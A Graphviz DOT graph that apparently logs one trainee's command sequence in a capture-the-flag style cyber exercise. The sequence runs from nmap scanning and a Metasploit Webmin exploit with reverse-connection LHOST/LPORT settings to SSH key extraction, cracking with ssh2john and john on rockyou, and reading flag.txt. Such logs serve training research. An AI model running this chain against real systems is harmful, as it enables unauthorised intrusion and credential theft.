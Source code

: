 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 M0 "]
	2 [label="ls A10 "]
	7 [label="msfconsole M2 "]
	8 [label="search webmin M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin M3 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin M3 "]
	20 [label="use 3 A4 "]
	21 [label="show options M5 "]
	22 [label="set SRVHOST 172.18.1.5 A6 "]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 A6 "]
	25 [label="set RHOST 172.18.1.5 A6 "]
	26 [label="check A7 "]
	27 [label="exploit M8 "]
	28 [label="set LHOST 147.251.83.13 M6 "]
	29 [label="exploit M8 "]
	30 [label="set LPORT 12345 A6 "]
	31 [label="exploit M8 "]
	32 [label="set LHOST 100.100.100.2 M6 "]
	33 [label="exploit M8 "]
	34 [label="set LPORT  A6 "]
	35 [label="set LPORT 4444 A6 "]
	36 [label="exploit M8 "]
	37 [label="set LHOST 10.1.135.83 M6 "]
	38 [label="nmap 10.1.17.4 A0 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 M16 "]
	41 [label="cd .ssh A16 "]
	42 [label="ls A10 "]
	44 [label="ssh-add id_rsaaaa A16 "]
	45 [label="ssh_add id_rsa A16 "]
	46 [label="ssh-add id_rsaa A16 "]
	47 [label="ssh-add id_rsa A16 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit M8 "]
	50 [label="chmod 600 id_rsa M15 "]
	51 [label="ssh-add id_rsa A16 "]
	52 [label="ssh-add id_rsa A16 "]
	53 [label="ssh eve@10.1.17.4 M16 "]
	54 [label="ls A10 "]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 A16 "]
	60 [label="./ssh2john.py id_rsa A14 A16 "]
	61 [label="./ssh2john.py id_rsa > hash A14 A16 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show A5 "]
	64 [label="john hash --show A5 A14 "]
	65 [label="john hash --show A5 A14 "]
	66 [label="john hash --show A5 A14 "]
	67 [label="john hash A14 "]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result M14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 M16 "]
	74 [label="ssh eve@10.1.17.4 M16 "]
	75 [label="mv id_rsa .ssh/id_rsa A16 "]
	76 [label="ssh eve@10.1.17.4 M16 "]
	77 [label="ssh eve@10.1.17.4 M16 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}

